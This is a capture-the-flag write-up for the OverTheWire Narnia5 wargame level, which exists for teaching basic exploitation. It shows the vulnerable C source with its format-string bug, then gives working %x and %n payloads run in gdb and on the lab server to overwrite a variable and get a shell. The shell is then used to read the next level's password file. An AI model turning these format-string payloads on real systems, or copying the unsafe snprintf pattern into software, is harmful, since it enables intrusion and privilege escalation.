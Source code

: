 #Narnia5

narnia.labs.overthewire.org

**Username:** narnia5
**Password:** see [narnia4](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Naria4)
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Just running the program provides us a little bit of a hint.
>
>```
# ./narnia5
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [] (0)
i = 1 (0xffb60dbc)
>```
>
> Peeking at the code we see:
>
>```C
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.
>
    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.
>
    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
> 
int main(int argc, char **argv){
	int i = 1;
	char buffer[64];
>
	snprintf(buffer, sizeof buffer, argv[1]);
	buffer[sizeof (buffer) - 1] = 0;
	printf("Change i's value from 1 -> 500. ");
>
	if(i==500){
		printf("GOOD\n");
		system("/bin/sh");
	}
>
	printf("No way...let me give you a hint!\n");
	printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
	printf ("i = %d (%p)\n", i, &i);
	return 0;
}
>```
> 
> Ok, looks like we need to manipulate the value of ```i```.  There is a lot of ```printf``` usage.  Let's try some basic string format entries.
>
>```
# ./narnia5 %x%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f76b9960ffb1f4e6] (16)
i = 1 (0xffb1f50c)
>```
>
> Looks like the right track.  Let's move to gdb and see if we can find our way back up the stack to our input.
>
>```
(gdb) run $(python -c 'print "AAAA"')%x%x%x%x%x%x%x
Starting program: /root/narnia5 $(python -c 'print "AAAA"')%x%x%x%x%x%x%x
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf7ed8960ffffd4c6f7e86315ffffd4c7414141416465376630363938] (60)
i = 1 (0xffffd4ec)
[Inferior 1 (process 7402) exited normally]
(gdb) run $(python -c 'print "AAAA"')%x%x%x%x%x
Starting program: /root/narnia5 $(python -c 'print "AAAA"')%x%x%x%x%x
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf7ed8960ffffd4c6f7e86315ffffd4c741414141] (44)
i = 1 (0xffffd4ec)
[Inferior 1 (process 7399) exited normally]
>```
>
> Looks like we have to read 5 times before we get back to our input.  They are already giving us the location of ```i``` as ```0xffffd4ec```, so we should be able to move directly into trying to overwrite the value.  To do this we'll use the ```%n``` format as it ```writes the number of bytes written so far```.  We can specify the address to change by inserting it at the begining of our input and using ```%x``` to get back to it.  Then all we need to do is insert the correct number of bytes and we should be able to overwrite ```i``` with the value ```500```.
>
>```
(gdb) run $(python -c 'print "\xec\xd4\xff\xff"')%08x%08x%08x%08x%n
Starting program: /root/narnia5 $(python -c 'print "\xec\xd4\xff\xff"')%08x%08x%08x%08x%n
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����f7ed8960ffffd4c6f7e86315ffffd4c7] (36)
i = 36 (0xffffd4ec)
>```
>
> By switching to ```%n``` we can see that we change the value of ```i``` from 1 to 36 so everything appears to be working as expected.  Let's go straight for 500.
>
>```
[Inferior 1 (process 7340) exited normally]
(gdb) run $(python -c 'print "\xec\xd4\xff\xff"+"A"*464')%08x%08x%08x%08x%n
Starting program: /root/narnia5 $(python -c 'print "\xec\xd4\xff\xff"+"A"*464')%08x%08x%08x%08x%n
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA] (63)
i = 1 (0xffffd31c)
[Inferior 1 (process 7344) exited normally]
>```
>
> Padded 464 ```A``` to make a total of 500, but it looks like our address for ```i``` has moved.  Let's update that address and try the same payload.
>
>```
(gdb) run $(python -c 'print "\x1c\xd3\xff\xff"+"A"*464')%08x%08x%08x%08x%n
Starting program: /root/narnia5 $(python -c 'print "\x1c\xd3\xff\xff"+"A"*464')%08x%08x%08x%08x%n
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
Change i's value from 1 -> 500. GOOD
# whoami
root
>```
>
> That looks better.  We are in gdb on the local box.  Let's go see if we can reproduce this on the server.
>
>```
narnia5@melinda:/narnia$ ./narnia5 $(python -c 'print "\x1c\xd3\xff\xff"+"A"*464')%08x%08x%08x%08x%n
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA] (63)
i = 1 (0xffffd50c)
>```
>
> Address for ```i``` changed again.  We know what to do.
>
>```
narnia5@melinda:/narnia$ ./narnia5 $(python -c 'print "\x0c\xd5\xff\xff"+"A"*464')%08x%08x%08x%08x%n
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
**********
$ 
>```
>
> Man that never gets old.  On to narnia6.
